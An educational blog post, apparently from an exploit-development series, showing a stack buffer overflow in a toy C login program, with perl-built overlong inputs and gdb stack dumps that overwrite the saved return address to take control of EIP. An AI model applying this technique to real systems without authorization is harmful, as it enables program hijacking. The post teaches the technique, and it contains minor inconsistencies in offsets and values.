




All the content on this website, including this post, is intended for educational use only. The techniques and processes presented should only be used against systems you own or have explicit written permission to target. Otherwise, you are breaking the Law - be smart. The author/s of this website will not accept any liability for misuse of this content.

Let's Back Up First
Before we continue let's analyse exactly what happened in the last post. We overwrote a buffer of 10 bytes by supplying an input of length 11 bytes. In doing so we changed the value returned by the check_password function. This altered the program's logic; the program normally logs you in the value returned is not zero. Since we overwrote the Stack with a non zero value for the return value we get logged in.
Let's analyse the Stack frame in more detail.
Function's Stack frame loaded onto the Stack.
Firstly the parameters of the function are pushed to the Stack; in this case our user input (stored in the local variable userpass). This memory segment has a variable length corresponding to the length of out user input. Next, the return address and contents of EBP are written to the Stack. Finally, space is allocated on the Stack for the local variables used by the function; in this case auth (4 bytes), pass_buffer (10 bytes) and actual_pass (10 bytes).
So what happened to the Stack when we overflowed the pass_buffer buffer by inputting a string of length 11. The last byte of our user input overwrote the buffer allocated to pass_buffer and was written into a portion of memory allocated to the auth variable.
Our Stack frame after the strcpy command overflows the pass_buffer buffer.
Now the value of auth is set to “000A” or rather to the decimal value 65. This is what is causing the problem - when auth is returned to main it will have a value of 65 causing the program to log you in.
That's Cool, But What Next
This is all well and good but what else can we do? What's to stop us from sending 50 bytes to the program and overwrite other stuff on the Stack? These are all the right questions. Let's send a buffer of 50 bytes to application and see what happens.
debug@lbuntu:~/Documents/exploitdev/chapter2/stack$ ./login $(perl -e 'print "A"x50') Segmentation fault (core dumped) debug@lbuntu:~/Documents/exploitdev/chapter2/stack$
The program crashes. But why does this happen? Let's have a look at the Stack after our 50 byte buffer is copied there.
This time we overflow the buffer by 40 bytes
As you can see we have overwritten most of the Stack frame. In particular, we have overwritten the return address with “\x41\x41\x41\x41” or “AAAA”. When the function has executed the program will try to resume execution at “\x41\x41\x41\x41” which is an invalid address. This causes the program to crash.
Let's analyse this in gdb. We set breakpoints before our input is copied into pass_buffer and before the program returns to main.
debug@lbuntu:~/Documents/exploitdev/chapter2/stack$ gdb -q ./login Reading symbols from ./login...done. (gdb) break 10 Breakpoint 1 at 0x60a: file login.c, line 10. (gdb) break 16 Breakpoint 2 at 0x63a: file login.c, line 16. (gdb) run $(perl -e 'print "A"x50') Starting program: /home/debug/Documents/exploitdev/chapter2/stack/login $(perl -e 'print "A"x50') Breakpoint 1, check_password (userpass=0xbffff722 'A' repeats 50 times) at login.c:10 warning: Source file is more recent than executable. 10 strcpy(pass_buffer, userpass); (gdb) x/32xw $esp 0xbffff4b0: 0x00000009 0xbffff6ec 0x6b636168 0x00007265 0xbffff4c0: 0xb7fb0000 0xb7fba000 0x00000000 0x00000000 0xbffff4d0: 0xb7fba3fc 0x00401fc8 0xbffff4f8 0x00400696 0xbffff4e0: 0xbffff722 0xbffff5a4 0xbffff5b0 0x00400656 0xbffff4f0: 0xbffff510 0x00000000 0x00000000 0xb7dfae91 0xbffff500: 0xb7fba000 0xb7fba000 0x00000000 0xb7dfae91 0xbffff510: 0x00000002 0xbffff5a4 0xbffff5b0 0xbffff534 0xbffff520: 0x00000002 0xbffff5a4 0xb7fba000 0xb7fe778a (gdb) info frame Stack level 0, frame at 0xbffff4e0: eip = 0x40060a in check_password (login.c:10); saved eip = 0x400696 called by frame at 0xbffff510 source language c. Arglist at 0xbffff4d8, args: userpass=0xbffff722 'A' repeats 50 times Locals at 0xbffff4d8, Previous frame's sp is 0xbffff4e0 Saved registers: ebx at 0xbffff4d4, ebp at 0xbffff4d8, eip at 0xbffff4dc (gdb)
At our first breakpoint, we see that our buffer has not yet been copied to the Stack as before. We note that the RET address is located at 0xbffff4dc on the Stack (as indicated using the info frame command and viewing the Saved registers). Thus the return address is currently x00400696, which is pointing back to main. Let's continue execution.
(gdb) continue Continuing. Breakpoint 2, check_password ( userpass=0x41414141 error: Cannot access memory at address 0x41414141) at login.c:16 16 return auth; (gdb) x/32xw $esp 0xbffff4b0: 0x00000009 0xbffff6ec 0x6b636168 0x00007265 0xbffff4c0: 0x41410000 0x41414141 0x41414141 0x41414141 0xbffff4d0: 0x41414141 0x41414141 0x41414141 0x41414141 0xbffff4e0: 0x41414141 0x41414141 0x41414141 0x41414141 0xbffff4f0: 0x41414141 0x00000000 0x00000000 0xb7dfae91 0xbffff500: 0xb7fba000 0xb7fba000 0x00000000 0xb7dfae91 0xbffff510: 0x00000002 0xbffff5a4 0xbffff5b0 0xbffff534 0xbffff520: 0x00000002 0xbffff5a4 0xb7fba000 0xb7fe778a (gdb) info frame Stack level 0, frame at 0xbffff4e0: eip = 0x40063a in check_password (login.c:16); saved eip = 0x41414141 called by frame at 0xbffff4e4 source language c. Arglist at 0xbffff4d8, args: userpass=0x41414141 error: Cannot access memory at address 0x41414141 Locals at 0xbffff4d8, Previous frame's sp is 0xbffff4e0 Saved registers: ebx at 0xbffff4d4, ebp at 0xbffff4d8, eip at 0xbffff4dc (gdb)
This time the program is in trouble. We have overwritten the return address RET with “\x41\x41\x41\x41”. When the function returns to main "\x41\x41\x41\x41", the contents of the RET address, is loaded into EIP. The program then tries to execute instructions at "\x41\x41\x41\x41", a non-sensical address, and crashes.
(gdb) continue Continuing. Program received signal SIGSEGV, Segmentation fault. 0x41414141 in ?? () (gdb)
So we can crash a program, so what? Since we can overwrite RET we can control where the program begins executing commands after the function has executed. We can choose exactly what is written into RET and thus gain control of the program's execution.
To demonstrate this let's overwrite RET with “BBBB” or “\x42\x42\x42\x42” in hexadecimal. Since we know the structure of the Stack we can do this. The RET address is at an offset of 26 bytes. This is because pass_buffer is 10 bytes, auth is 4 bytes, EBP is 4 bytes and 8 bytes of data put there by the compiler which gives 26 bytes. We will send 26 As followed by 4 Bs to overwrite RET with BBBB.
debug@lbuntu:~/Documents/exploitdev/chapter2/stack$ gdb -q ./login Reading symbols from ./login...done. (gdb) break 16 Breakpoint 1 at 0x63a: file login.c, line 16. (gdb) run $(perl -e " print 'A'x18 . 'B'x4") Starting program: /home/debug/Documents/exploitdev/chapter2/stack/login $(perl -e " print 'A'x26 . 'B'x4") Breakpoint 1, check_password ( userpass=0xbffff73e 'A' repeats 18 times, "BBBB") at login.c:16 16 return auth; (gdb) x/32xw $esp 0xbffff4d0: 0x00000009 0xbffff708 0x6b636168 0x00007265 0xbffff4e0: 0x41410000 0x41414141 0x41414141 0x41414141 0xbffff4f0: 0x41414141 0x41414141 0x41414141 0x42424242 0xbffff500: 0xbffff73e 0xbffff5c4 0xbffff5d0 0x00400656 0xbffff510: 0xbffff530 0x00000000 0x00000000 0xb7dfae91 0xbffff520: 0xb7fba000 0xb7fba000 0x00000000 0xb7dfae91 0xbffff530: 0x00000002 0xbffff5c4 0xbffff5d0 0xbffff554 0xbffff540: 0x00000002 0xbffff5c4 0xb7fba000 0xb7fe778a (gdb) info frame Stack level 0, frame at 0xbffff500: eip = 0x40063a in check_password (login.c:16); saved eip = 0x42424242 called by frame at 0xbffff500 source language c. Arglist at 0xbffff4f8, args: userpass=0xbffff73e 'A' repeats 18 times, "BBBB" Locals at 0xbffff4f8, Previous frame's sp is 0xbffff500 Saved registers: ebx at 0xbffff4f4, ebp at 0xbffff4f8, eip at 0xbffff4fc (gdb)
We have successfully overwritten RET with 0x42424242! When the program returns from the function the value of RET will be loaded into EIP. This will load 0x42424242 into EIP. The program will then begin executing commands at the memory address in EIP. In our case, the address will be non-sensical and the program will crash. However, we can control the execution flow of the program by specifying the valid address of the next command we want to execute instead of our Bs.
Next time we will force the program to execute code that it did not intend to. We shall not limit ourselves to the instructions available to the program. We will inject our own code into the program in place of our A characters and direct the program back to our code for execution.
References:
Rob Williams, https://medium.com/@rwilliams_74049/simple-linux-x86-buffer-overflow-212a9a34866f
Ars Technica, How Buffer Overflows work: overwriting the return address https://www.youtube.com/watch?v=LkqZ8I2FVuQ